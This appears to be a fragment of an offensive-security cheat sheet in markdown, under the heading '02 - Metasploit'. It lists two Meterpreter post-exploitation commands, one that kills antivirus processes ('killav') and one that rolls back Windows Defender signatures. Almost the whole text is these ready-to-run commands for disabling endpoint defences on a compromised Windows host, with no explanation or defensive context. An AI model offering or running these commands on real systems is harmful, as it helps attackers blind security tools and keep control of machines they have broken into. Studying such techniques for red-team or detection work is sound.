# 02 - Metasploit

### 2.1 - Disable Endpoints

```
meterpreter > run post/windows/manage/killav
```

### 2.2 - Remove Definitions

```
meterpreter > run post/windows/manage/rollback_defender_signatures action=rollback
```